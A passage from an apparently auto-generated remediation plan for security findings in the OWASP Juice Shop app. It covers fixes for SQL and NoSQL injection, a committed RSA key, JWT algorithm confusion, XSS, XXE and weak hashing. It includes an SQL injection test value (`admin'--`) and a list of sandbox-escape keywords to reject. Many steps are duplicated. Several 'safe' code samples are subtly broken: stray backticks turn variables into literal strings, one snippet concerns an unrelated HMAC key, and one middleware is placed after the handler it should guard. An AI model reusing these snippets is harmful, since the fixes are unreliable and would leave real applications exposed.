Add a top-level GITHUB_TOKEN permissions block<br/>❹ [M-039](#m-039) — Assert server-derived UserId in addMemory rather than trusting req.body

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Establish centralized parameterized query layer to eliminate all injection paths

**Addresses:**

- 🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34)
- 🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23)
- 🔴 [F-014](#f-014) — NoSQL Injection via \$where Clause (routes/showProductReviews.ts:36)
- 🔴 [F-015](#f-015) — NoSQL Injection via \$where Clause (routes/trackOrder.ts:18)

**Priority:** P1 — Immediate · **Effort:** High · **File:** `routes/login.ts:34`

**How:**

1. Replace `models.sequelize.query()` template literal with a parameterized call: `models.sequelize.query('SELECT * FROM Users WHERE email = $1 AND password = $2 AND deletedAt IS NULL', { bind: [req.body.email, security.hash(req.body.password || '')], model: UserModel, plain: true })`.
2. Alternatively, use `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password || ''), deletedAt: null } })` to let Sequelize handle escaping.
3. Add integration test asserting that `email = "admin'--"` returns 401.
4. Replace the template literal with a named parameter: `models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :pat OR description LIKE :pat) AND deletedAt IS NULL) ORDER BY name', { replacements: { pat: '%' + criteria + '%' }, type: QueryTypes.SELECT })`.
5. Alternatively use `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: '%' + criteria + '%' } }, { description: { [Op.like]: '%' + criteria + '%' } }], deletedAt: null } })` which escapes via Sequelize operators.
6. Ensure the `criteria` string is stripped of UNION/SELECT keywords if parameterized queries are not immediately feasible (defense-in-depth only — parameterization is the primary fix).
7. Replace `db.reviewsCollection.find({ $where: 'this.product == ' + id })` with `db.reviewsCollection.find({ product: Number(id) })` — MarsDB supports direct field matching without JavaScript evaluation.
8. Cast `id` to `Number` before the query in all code paths (challenge-enabled or not): `const productId = Number(req.params.id); if (isNaN(productId)) { return res.status(400).json({ error: 'Invalid id' }); }`.
9. Remove the `global.sleep` definition from `routes/showProductReviews.ts` or scope it to a test-only import.
10. Replace `db.ordersCollection.find({ $where: \`this.`orderId` === '${id}'\` })` with `db.ordersCollection.find({ orderId: id })` where `id` is pre-validated with `if (!/^[\w-]+$/.test(id)) { return res.status(400).json({ error: 'Invalid order id' }); }`.
11. Apply the `replace(/[^\w-]+/g, '')` sanitization unconditionally in both challenge-enabled and challenge-disabled paths.
12. Review all MarsDB `$where` usages in the codebase and replace with direct field queries.

```javascript
// Safe parameterized version
models.sequelize.query(
  'SELECT * FROM Users WHERE email = \$1 AND password = \$2 AND deletedAt IS NULL',
  { bind: [`req.body.email`, security.hash(`req.body.password` || '')],
    model: UserModel, plain: true }
)
```

**Reference:** CWE-89

---

<a id="m-002"></a>
#### M-002 — Rotate committed secrets and adopt runtime secret management

**Addresses:**

- 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)
- 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code
- 🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43)
- 🟠 [F-021](#f-021) — MD5 Used for Password Hashing

**Priority:** P1 — Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:**

1. Remove the hardcoded key from `lib/insecurity.ts`. Inject it via `process.env.JWT_PRIVATE_KEY` at runtime, sourced from a secret manager (e.g., AWS Secrets Manager, HashiCorp Vault, or a Kubernetes Secret mounted as an env var).
2. Generate a new RSA key pair immediately — the committed key must be treated as permanently compromised. Invalidate all sessions signed with the old key by rotating the public key reference in `encryptionkeys/jwt.pub`.
3. Add a pre-commit hook or CI secret scanner (e.g., `trufflesecurity/trufflehog`, `gitleaks`) to prevent future key commits.
4. Generate a new RSA key pair (`openssl genrsa -out jwt_private.pem 2048`) and store the private key in an environment variable `JWT_PRIVATE_KEY` or a secrets manager (AWS Secrets Manager, HashiCorp Vault).
5. Update `lib/insecurity.ts` to read the private key from `process.env.JWT_PRIVATE_KEY` and throw a startup error if absent.
6. Rotate the currently exposed key immediately and invalidate all existing tokens.
7. Add a pre-commit hook or CI check (e.g., `git-secrets`, `detect-secrets`) to block private key patterns.
8. Install `bcrypt` (`npm install bcrypt @types/bcrypt`) and replace `security.hash()` in `lib/insecurity.ts` with `await bcrypt.hash(password, 12)` for storage and `await bcrypt.compare(candidate, stored)` for verification.
9. Update `models/user.ts:76-78` to async: make the `set()` hook call a migration-time hash upgrade or use a model-level `beforeCreate`/`beforeUpdate` hook.
10. Update `routes/login.ts:34` to use `UserModel.findOne({ where: { email: req.body.email } })` followed by `bcrypt.compare(req.body.password, user.password)` rather than comparing hashes in SQL.
11. Run a one-time migration to re-hash all stored MD5 passwords at next login (lazy migration pattern).
12. Add the `bcrypt` npm package (`npm install bcrypt @types/bcrypt`).
13. Replace `security.hash(password)` with `await bcrypt.hash(password, 12)` at registration and reset.
14. Replace the login comparison with `await bcrypt.compare(plaintextPassword, storedHash)`.
15. Run a one-time migration to re-hash existing users on next login (hash-on-login-upgrade pattern).
16. Invalidate all existing sessions after migration to force re-authentication.

```typescript
// `lib/insecurity.ts` - load from environment
const privateKey = `process.env.JWT_PRIVATE_KEY` ??
  (() => { throw new Error('JWT_PRIVATE_KEY environment variable is not set') })()
```

**Reference:** CWE-321

---

<a id="m-006"></a>
#### M-006 — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts

**Addresses:**

- 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54)

**Priority:** P1 — Immediate · **Effort:** Low · **File:** `lib/insecurity.ts:54`

**How:** Update `isAuthorized()` at `lib/insecurity.ts:54` to `expressJwt({ secret: publicKey, algorithms: ['RS256'] })`. This single change closes both the `alg:none` and the HS256 confusion paths. Rotate the RSA key pair after the fix is deployed, since the current private key is committed to the repository (see b2b-api-003) and any tokens minted with it should be considered compromised.

1. Update `isAuthorized()` at `lib/insecurity.ts:54` to `expressJwt({ secret: publicKey, algorithms: ['RS256'] })`. This single change closes both the `alg:none` and the HS256 confusion paths.
2. Rotate the RSA key pair after the fix is deployed, since the current private key is committed to the repository (see b2b-api-003) and any tokens minted with it should be considered compromised.

```typescript
// `lib/insecurity.ts:54` - before
export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)

// after
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-007"></a>
#### M-007 — Replace raw SQL login query with parameterized Sequelize query

**Addresses:**

- 🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34)

**Priority:** P1 — Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:** Replace `models.sequelize.query()` template literal with a parameterized call: `models.sequelize.query('SELECT * FROM Users WHERE email = $1 AND password = $2 AND deletedAt IS NULL', { bind: [req.body.email, security.hash(req.body.password || '')], model: UserModel, plain: true })`. Alternatively, use `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password || ''), deletedAt: null } })` to let Sequelize handle escaping. Add integration test asserting that `email = "admin'--"` returns 401.

1. Replace `models.sequelize.query()` template literal with a parameterized call: `models.sequelize.query('SELECT * FROM Users WHERE email = $1 AND password = $2 AND deletedAt IS NULL', { bind: [req.body.email, security.hash(req.body.password || '')], model: UserModel, plain: true })`.
2. Alternatively, use `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password || ''), deletedAt: null } })` to let Sequelize handle escaping.
3. Add integration test asserting that `email = "admin'--"` returns 401.

```javascript
// Safe parameterized version
models.sequelize.query(
  'SELECT * FROM Users WHERE email = \$1 AND password = \$2 AND deletedAt IS NULL',
  { bind: [`req.body.email`, security.hash(`req.body.password` || '')],
    model: UserModel, plain: true }
)
```

**Reference:** CWE-89

---

<a id="m-008"></a>
#### M-008 — Replace raw search query with parameterized Sequelize LIKE query

**Addresses:**

- 🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23)

**Priority:** P1 — Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Replace the template literal with a named parameter: `models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :pat OR description LIKE :pat) AND deletedAt IS NULL) ORDER BY name', { replacements: { pat: '%' + criteria + '%' }, type: QueryTypes.SELECT })`. Alternatively use `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: '%' + criteria + '%' } }, { description: { [Op.like]: '%' + criteria + '%' } }], deletedAt: null } })` which escapes via Sequelize operators. Ensure the `criteria` string is stripped of UNION/SELECT keywords if parameterized queries are not immediately feasible (defense-in-depth only — parameterization is the primary fix).

1. Replace the template literal with a named parameter: `models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :pat OR description LIKE :pat) AND deletedAt IS NULL) ORDER BY name', { replacements: { pat: '%' + criteria + '%' }, type: QueryTypes.SELECT })`.
2. Alternatively use `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: '%' + criteria + '%' } }, { description: { [Op.like]: '%' + criteria + '%' } }], deletedAt: null } })` which escapes via Sequelize operators.
3. Ensure the `criteria` string is stripped of UNION/SELECT keywords if parameterized queries are not immediately feasible (defense-in-depth only — parameterization is the primary fix).

```javascript
import { QueryTypes } from 'sequelize'
// Safe version
models.sequelize.query(
  "SELECT * FROM Products WHERE ((name LIKE :pat OR description LIKE :pat) AND deletedAt IS NULL) ORDER BY name",
  { replacements: { pat: `%${criteria}%` }, type: QueryTypes.SELECT }
)
```

**Reference:** CWE-89

---

<a id="m-009"></a>
#### M-009 — Load RSA private key from an environment variable or secret manager in lib/insecurity.ts

**Addresses:**

- 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)

**Priority:** P1 — Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Remove the hardcoded key from `lib/insecurity.ts`. Inject it via `process.env.JWT_PRIVATE_KEY` at runtime, sourced from a secret manager (e.g., AWS Secrets Manager, HashiCorp Vault, or a Kubernetes Secret mounted as an env var). Generate a new RSA key pair immediately — the committed key must be treated as permanently compromised. Invalidate all sessions signed with the old key by rotating the public key reference in `encryptionkeys/jwt.pub`. Add a pre-commit hook or CI secret scanner (e.g., `trufflesecurity/trufflehog`, `gitleaks`) to prevent future key commits.

1. Remove the hardcoded key from `lib/insecurity.ts`. Inject it via `process.env.JWT_PRIVATE_KEY` at runtime, sourced from a secret manager (e.g., AWS Secrets Manager, HashiCorp Vault, or a Kubernetes Secret mounted as an env var).
2. Generate a new RSA key pair immediately — the committed key must be treated as permanently compromised. Invalidate all sessions signed with the old key by rotating the public key reference in `encryptionkeys/jwt.pub`.
3. Add a pre-commit hook or CI secret scanner (e.g., `trufflesecurity/trufflehog`, `gitleaks`) to prevent future key commits.

```typescript
// `lib/insecurity.ts` - load from environment
const privateKey = `process.env.JWT_PRIVATE_KEY` ??
  (() => { throw new Error('JWT_PRIVATE_KEY environment variable is not set') })()
```

**Reference:** CWE-321

---

<a id="m-010"></a>
#### M-010 — Remove hardcoded private key and load it from environment or secrets manager at runtime

**Addresses:**

- 🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code

**Priority:** P1 — Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Generate a new RSA key pair (`openssl genrsa -out jwt_private.pem 2048`) and store the private key in an environment variable `JWT_PRIVATE_KEY` or a secrets manager (AWS Secrets Manager, HashiCorp Vault). Update `lib/insecurity.ts` to read the private key from `process.env.JWT_PRIVATE_KEY` and throw a startup error if absent. Rotate the currently exposed key immediately and invalidate all existing tokens. Add a pre-commit hook or CI check (e.g., `git-secrets`, `detect-secrets`) to block private key patterns.

1. Generate a new RSA key pair (`openssl genrsa -out jwt_private.pem 2048`) and store the private key in an environment variable `JWT_PRIVATE_KEY` or a secrets manager (AWS Secrets Manager, HashiCorp Vault).
2. Update `lib/insecurity.ts` to read the private key from `process.env.JWT_PRIVATE_KEY` and throw a startup error if absent.
3. Rotate the currently exposed key immediately and invalidate all existing tokens.
4. Add a pre-commit hook or CI check (e.g., `git-secrets`, `detect-secrets`) to block private key patterns.

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = `process.env.ORDER_HMAC_KEY`
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Run a secret-scanner (trufflehog / git-secrets) on HEAD and confirm zero hits in `lib/` and `routes/`.

**Reference:** CWE-798

---

<a id="m-011"></a>
#### M-011 — Replace safeEval with a strict JSON schema parser for orderLinesData in routes/b2bOrder.ts

**Addresses:**

- 🔴 [F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23)

**Priority:** P1 — Immediate · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** Define a JSON Schema or `zod` schema that specifies the exact structure expected in `orderLinesData` (e.g., an array of line objects with numeric quantity and string product ID). Reject any input that does not conform before it reaches any evaluation step. Remove the `vm.runInContext(safeEval(...))` call entirely. If expression evaluation is a business requirement, replace it with a dedicated parser (e.g., `mathjs` for numeric expressions) bound to a strict allowlist of operations. If removing eval is not immediately feasible, add a pre-evaluation allowlist regex that permits only numeric literals, arithmetic operators, and whitespace — rejecting any input containing `constructor`, `prototype`, `__proto__`, `Function`, or bracket access forms.

1. Define a JSON Schema or `zod` schema that specifies the exact structure expected in `orderLinesData` (e.g., an array of line objects with numeric quantity and string product ID). Reject any input that does not conform before it reaches any evaluation step.
2. Remove the `vm.runInContext(safeEval(...))` call entirely. If expression evaluation is a business requirement, replace it with a dedicated parser (e.g., `mathjs` for numeric expressions) bound to a strict allowlist of operations.
3. If removing eval is not immediately feasible, add a pre-evaluation allowlist regex that permits only numeric literals, arithmetic operators, and whitespace — rejecting any input containing `constructor`, `prototype`, `__proto__`, `Function`, or bracket access forms.

```typescript
import { z } from 'zod'

const OrderLineSchema = z.array(z.object({
  productId: z.string().uuid(),
  quantity: z.number().int().min(1).max(999)
}))

// In b2bOrder handler:
const parsed = OrderLineSchema.safeParse(body.orderLinesData)
if (!parsed.success) {
  res.status(400).json({ error: 'Invalid order lines data' })
  return
}
```

**Reference:** CWE-94

---

### P2 — This Sprint

<a id="m-005"></a>
#### M-005 — Replace deterministic email-derived password with server-side OAuth-account linking and randomized credentials

**Addresses:**

- 🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts:46)

**Priority:** P2 — This Sprint · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:46`

**How:** Remove the `btoa(email.split('').reverse().join(''))` password derivation from `oauth.component.ts` entirely. On the backend, link Google OAuth accounts to internal users via the OAuth `sub` claim rather than a password; do not register a usable password for OAuth-only accounts. If a password is technically required by the schema, generate a cryptographically random 32-byte password server-side during account creation and never expose it to the client. Disable direct password login for accounts flagged as OAuth-only (`oauth: true`) in the backend user model.

1. Remove the `btoa(email.split('').reverse().join(''))` password derivation from `oauth.component.ts` entirely.
2. On the backend, link Google OAuth accounts to internal users via the OAuth `sub` claim rather than a password; do not register a usable password for OAuth-only accounts.
3. If a password is technically required by the schema, generate a cryptographically random 32-byte password server-side during account creation and never expose it to the client.
4. Disable direct password login for accounts flagged as OAuth-only (`oauth: true`) in the backend user model.

**Reference:** CWE-522

---

<a id="m-013"></a>
#### M-013 — Add security.isAuthorized() middleware to the POST /file-upload route

**Addresses:**

- 🔴 [F-009](#f-009) — Missing Authentication on File Upload Endpoint (server.ts:309)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `server.ts:309`

**How:** Insert `security.isAuthorized()` as the first route-specific middleware in the `app.post('/file-upload', ...)` chain at `server.ts:309`, before `ensureFileIsPassed`. Verify that the `/profile/image/file` route at `server.ts:310` similarly lacks an explicit `security.isAuthorized()` call and add it; that route's handler (`profileImageFileUpload`) performs a manual token lookup but does not formally validate the JWT signature. Write an integration test that sends an unauthenticated POST to `/file-upload` and asserts a 401 response.

1. Insert `security.isAuthorized()` as the first route-specific middleware in the `app.post('/file-upload', ...)` chain at `server.ts:309`, before `ensureFileIsPassed`.
2. Verify that the `/profile/image/file` route at `server.ts:310` similarly lacks an explicit `security.isAuthorized()` call and add it; that route's handler (`profileImageFileUpload`) performs a manual token lookup but does not formally validate the JWT signature.
3. Write an integration test that sends an unauthenticated POST to `/file-upload` and asserts a 401 response.

```typescript
// `server.ts:309` - fix: add `isAuthorized()`
app.post('/file-upload',
  uploadToMemory.single('file'),
  `security.isAuthorized()`,  // add this
  ensureFileIsPassed,
  checkUploadSize,
  checkFileType,
  handleZipFileUpload,
  handleXmlUpload,
  handleYamlUpload
)
```

**Reference:** CWE-306

---

<a id="m-014"></a>
#### M-014 — Sanitize feedback comments server-side and remove bypassSecurityTrustHtml in About and Administration components

**Addresses:**

- 🔴 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119)

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `about.component.ts:119`

**How:** Remove `bypassSecurityTrustHtml()` from `about.component.ts:119` and `administration.component.ts:78`; use Angular's default text binding `{{ feedback.comment }}` or safe HTML pipe. On the backend, apply `sanitize-html` or equivalent to feedback comment content before storing it. If rich-text feedback is a product requirement, define a strict allowlist (`ALLOWED_TAGS: ['b', 'i', 'em', 'strong']`) via DOMPurify and bypass only the sanitized output.

1. Remove `bypassSecurityTrustHtml()` from `about.component.ts:119` and `administration.component.ts:78`; use Angular's default text binding `{{ feedback.comment }}` or safe HTML pipe.
2. On the backend, apply `sanitize-html` or equivalent to feedback comment content before storing it.
3. If rich-text feedback is a product requirement, define a strict allowlist (`ALLOWED_TAGS: ['b', 'i', 'em', 'strong']`) via DOMPurify and bypass only the sanitized output.

```javascript
// backend: sanitize before DB write
import sanitizeHtml from 'sanitize-html'
feedback.comment = sanitizeHtml(`req.body.comment`, {
  allowedTags: ['b', 'i', 'em', 'strong'],
  allowedAttributes: {}
})
```

**Reference:** CWE-79

---

<a id="m-015"></a>
#### M-015 — Implement Content-Security-Policy header with strict script-src allowlist

**Addresses:**

- 🔴 [F-011](#f-011) — Missing Content Security Policy (frontend/src/)

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.component.ts:1`

**How:** Add a strict CSP to the Express server's helmet configuration: `helmet.contentSecurityPolicy({ directives: { defaultSrc: ["'self'"], scriptSrc: ["'self'"], objectSrc: ["'none'"], baseUri: ["'self'"] } })`. Enable `Trusted Types` policy via CSP `require-trusted-types-for 'script'` to block `bypassSecurityTrustHtml` sinks at the browser level. Use `angular-csp` schematics to generate a nonce-based CSP compatible with Angular's inline styles. Add `Content-Security-Policy-Report-Only` first with a reporting endpoint to measure breakage before enforcing.

1. Add a strict CSP to the Express server's helmet configuration: `helmet.contentSecurityPolicy({ directives: { defaultSrc: ["'self'"], scriptSrc: ["'self'"], objectSrc: ["'none'"], baseUri: ["'self'"] } })`.
2. Enable `Trusted Types` policy via CSP `require-trusted-types-for 'script'` to block `bypassSecurityTrustHtml` sinks at the browser level.
3. Use `angular-csp` schematics to generate a nonce-based CSP compatible with Angular's inline styles.
4. Add `Content-Security-Policy-Report-Only` first with a reporting endpoint to measure breakage before enforcing.

```javascript
// `server.ts` - add via helmet
app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'"],
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", 'data:'],
    objectSrc: ["'none'"],
    baseUri: ["'self'"],
    frameAncestors: ["'none'"]
  }
}))
```

**Reference:** CWE-79

---

<a id="m-016"></a>
#### M-016 — Replace document.write with a safe content rendering method for data export output

**Addresses:**

- 🔴 [F-012](#f-012) — DOM XSS via document… (frontend/src/app/data export/data export.component.ts:71)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `frontend/src/app/data-export/data-export.component.ts:71`

**How:** Replace `document.write(this.userData)` with a Blob URL approach: create a `Blob` from `this.userData` with type `text/plain` or `application/json`, then open the blob URL. If HTML export is required, sanitize `this.userData` through DOMPurify before writing it. Consider triggering an `<a>` element `download` attribute instead of opening a new window.

1. Replace `document.write(this.userData)` with a Blob URL approach: create a `Blob` from `this.userData` with type `text/plain` or `application/json`, then open the blob URL.
2. If HTML export is required, sanitize `this.userData` through DOMPurify before writing it.
3. Consider triggering an `<a>` element `download` attribute instead of opening a new window.

```javascript
// Safe: trigger file download instead of document.write
const blob = new Blob([this.userData], { type: 'application/json' })
const url = URL.createObjectURL(blob)
const a = document.createElement('a')
a.href = url
a.download = 'data-export.json'
`a.click()`
URL.revokeObjectURL(url)
```

**Reference:** CWE-79

---

<a id="m-017"></a>
#### M-017 — Remove bypassSecurityTrustHtml on search query parameter and use Angular interpolation

**Addresses:**

- 🔴 [F-013](#f-013) — DOM Based XSS v… (frontend/src/app/search result/search result.component.ts:170)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:** Remove the `this.sanitizer.bypassSecurityTrustHtml(queryParam)` call at line 170 and assign `queryParam` directly as a plain string to `this.searchValue`. In the template, use `{{ searchValue }}` (text interpolation) instead of `[innerHTML]="searchValue"` to prevent HTML rendering. If highlighted search term rendering requires HTML, use a custom Angular pipe that allowlists only `<mark>` or `<b>` tags via a strict sanitizer (e.g. `DOMPurify` with a restricted allowlist).

1. Remove the `this.sanitizer.bypassSecurityTrustHtml(queryParam)` call at line 170 and assign `queryParam` directly as a plain string to `this.searchValue`.
2. In the template, use `{{ searchValue }}` (text interpolation) instead of `[innerHTML]="searchValue"` to prevent HTML rendering.
3. If highlighted search term rendering requires HTML, use a custom Angular pipe that allowlists only `<mark>` or `<b>` tags via a strict sanitizer (e.g. `DOMPurify` with a restricted allowlist).

```javascript
// Safe: plain string assignment, template uses {{ searchValue }}
this.searchValue = queryParam

// If HTML highlighting is required:
import DOMPurify from 'dompurify'
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(
  DOMPurify.sanitize(highlightedQuery, { ALLOWED_TAGS: ['mark'] })
)
```

**Reference:** CWE-79

---

<a id="m-018"></a>
#### M-018 — Replace MarsDB $where JavaScript evaluation with a direct field equality query

**Addresses:**

- 🔴 [F-014](#f-014) — NoSQL Injection via \$where Clause (routes/showProductReviews.ts:36)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/showProductReviews.ts:36`

**How:** Replace `db.reviewsCollection.find({ $where: 'this.product == ' + id })` with `db.reviewsCollection.find({ product: Number(id) })` — MarsDB supports direct field matching without JavaScript evaluation. Cast `id` to `Number` before the query in all code paths (challenge-enabled or not): `const productId = Number(req.params.id); if (isNaN(productId)) { return res.status(400).json({ error: 'Invalid id' }); }`. Remove the `global.sleep` definition from `routes/showProductReviews.ts` or scope it to a test-only import.

1. Replace `db.reviewsCollection.find({ $where: 'this.product == ' + id })` with `db.reviewsCollection.find({ product: Number(id) })` — MarsDB supports direct field matching without JavaScript evaluation.
2. Cast `id` to `Number` before the query in all code paths (challenge-enabled or not): `const productId = Number(req.params.id); if (isNaN(productId)) { return res.status(400).json({ error: 'Invalid id' }); }`.
3. Remove the `global.sleep` definition from `routes/showProductReviews.ts` or scope it to a test-only import.

```javascript
// Safe: field equality instead of \$where
const productId = Number(`req.params.id`)
if (isNaN(productId)) return res.status(400).json({ error: 'Invalid id' })
db.reviewsCollection.find({ product: productId }).then((reviews: Review[]) => { ... })
```

**Reference:** CWE-943

---

<a id="m-019"></a>
#### M-019 — Replace $where order query with direct field equality and strict ID format validation

**Addresses:**

- 🔴 [F-015](#f-015) — NoSQL Injection via \$where Clause (routes/trackOrder.ts:18)

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/trackOrder.ts:18`

**How:** Replace `db.ordersCollection.find({ $where: \`this.`orderId` === '${id}'\` })` with `db.ordersCollection.find({ orderId: id })` where `id` is pre-validated with `if (!/^[\w-]+$/.test(id)) { return res.status(400).json({ error: 'Invalid order id' }); }`. Apply the `replace(/[^\w-]+/g, '')` sanitization unconditionally in both challenge-enabled and challenge-disabled paths. Review all MarsDB `$where` usages in the codebase and replace with direct field queries.

1. Replace `db.ordersCollection.find({ $where: \`this.`orderId` === '${id}'\` })` with `db.ordersCollection.find({ orderId: id })` where `id` is pre-validated with `if (!/^[\w-]+$/.test(id)) { return res.status(400).json({ error: 'Invalid order id' }); }`.
2. Apply the `replace(/[^\w-]+/g, '')` sanitization unconditionally in both challenge-enabled and challenge-disabled paths.
3. Review all MarsDB `$where` usages in the codebase and replace with direct field queries.

```javascript
// Safe: direct field equality
const id = String(`req.params.id`).replace(/[^\w-]+/g, '')
if (!id) return res.status(400).json({ error: 'Invalid id' })
db.ordersCollection.find({ orderId: id }).then((order: any) => { ... })
```

**Reference:** CWE-943

---

<a id="m-020"></a>
#### M-020 — Disable external entity processing in libxmljs2 XML parse options

**Addresses:**

- 🟠 [F-016](#f-016) — XML External Entity Injection in File Upload

**Priority:** P2 — This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:** Change the parse call to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` — setting `noent: false` disables external entity substitution. Additionally pass `{ nonet: true }` to prevent network-based entity fetches. Consider removing XML file upload support entirely since the route is already marked deprecated and returns 410.

1. Change the parse call to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` — setting `noent: false` disables external entity substitution.
2. Additionally pass `{ nonet: true }` to prevent network-based entity fetches.
3. Consider removing XML file upload support entirely since the route is already marked deprecated and returns 410.

```typescript
const xmlDoc = libxml.parseXml(data, {
  noblanks: true,
  noent: false,   // disable XXE
  nonet: true,    // disable network access
  nocdata: true
});
```

**Reference:** CWE-611

---

<a id="m-021"></a>
#### M-021 — Enable structured query logging and add Sequelize model audit hooks

**Addresses:**

- 🟠 [F-017](#f-017) — No Audit Logging at Data Layer (models/index.ts:39)

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `models/index.ts:39`

**How:** Enable Sequelize logging with a structured logger: replace `logging: false` with `logging: (msg) => logger.info({ query: msg }, 'sql')` using a library such as `winston` or `pino`. Add Sequelize `afterCreate` / `afterUpdate` / `afterDestroy` hooks to the `User`, `Basket`, and `Order`-related models to emit structured audit events `{ actor, action, table, id, timestamp }`. For MarsDB, wrap `reviewsCollection.update` and `ordersCollection.insert/update` calls with a thin logger middleware that records `{ actor, action, collection, filter, timestamp }` before executing the query. Persist audit events to an append-only sink (separate log file or database table) that application-level code cannot modify.

1. Enable Sequelize logging with a structured logger: replace `logging: false` with `logging: (msg) => logger.info({ query: msg }, 'sql')` using a library such as `winston` or `pino`.
2. Add Sequelize `afterCreate` / `afterUpdate` / `afterDestroy` hooks to the `User`, `Basket`, and `Order`-related models to emit structured audit events `{ actor, action, table, id, timestamp }`.
3. For MarsDB, wrap `reviewsCollection.update` and `ordersCollection.insert/update` calls with a thin logger middleware that records `{ actor, action, collection, filter, timestamp }` before executing the query.
4. Persist audit events to an append-only sink (separate log file or database table) that application-level code cannot modify.

```javascript
// `models/index.ts` - enable structured SQL logging
const sequelize = new Sequelize('database', 'username', 'password', {
  dialect: 'sqlite',
  storage: 'data/juiceshop.sqlite',
  logging: (msg) => logger.info({ query: msg }, 'sql-audit')
})
```

**Reference:** CWE-778

---

<a id="m-022"></a>
#### M-022 — Emit structured security audit log entries for authentication and admin events

**Addresses:**

- 🟠 [F-018](#f-018) — Security Relevant Events Not Written to Audit Log routes/login.ts, routes/reset…

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `routes/login.ts:34`

**How:** Add `logger.info({ event: 'login_success', userId: user.data.id, email: user.data.email, ip: req.ip })` on successful authentication in `routes/login.ts`. Add `logger.warn({ event: 'login_failure', email: req.body.email, ip: req.ip })` on failed authentication. Add similar audit entries in `routes/resetPassword.ts` for successful and failed password resets. Log admin actions (order status changes, user deletions) with actor identity and resource ID. Route audit logs to an append-only sink (separate file with file-stream-rotator, or a SIEM) distinct from the access log.

1. Add `logger.info({ event: 'login_success', userId: user.data.id, email: user.data.email, ip: req.ip })` on successful authentication in `routes/login.ts`.
2. Add `logger.warn({ event: 'login_failure', email: req.body.email, ip: req.ip })` on failed authentication.
3. Add similar audit entries in `routes/resetPassword.ts` for successful and failed password resets.
4. Log admin actions (order status changes, user deletions) with actor identity and resource ID.
5. Route audit logs to an append-only sink (separate file with file-stream-rotator, or a SIEM) distinct from the access log.

```typescript
// In login route after successful auth:
logger.info(JSON.stringify({
  event: 'login_success',
  userId: user.data.id,
  email: user.data.email,
  ip: `req.ip`,
  ts: new Date().toISOString()
}));
```

**Reference:** CWE-778

---

<a id="m-024"></a>
#### M-024 — Replace MD5 password hashing with bcrypt or Argon2

**Addresses:**

- 🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43)
- 🟠 [F-021](#f-021) — MD5 Used for Password Hashing

**Priority:** P2 — This Sprint · **Effort:** Medium · **File:** `models/user.ts:76`

**How:** Install `bcrypt` (`npm install bcrypt @types/bcrypt`) and replace `security.hash()` in `lib/insecurity.ts` with `await bcrypt.hash(password, 12)` for storage and `await bcrypt.compare(candidate, stored)` for verification. Update `models/user.ts:76-78` to async: make the `set()` hook call a migration-time hash upgrade or use a model-level `beforeCreate`/`beforeUpdate` hook. Update `routes/login.ts:34` to use `UserModel.findOne({ where: { email: req.body.email } })` followed by `bcrypt.compare(req.body.password, user.password)` rather than comparing hashes in SQL. Run a one-time migration to re-hash all stored MD5 passwords at next login (lazy migration pattern).

1. Install `bcrypt` (`npm install bcrypt @types/bcrypt`) and replace `security.hash()` in `lib/insecurity.ts` with `await bcrypt.hash(password, 12)` for storage and `await bcrypt.compare(candidate, stored)` for verification.
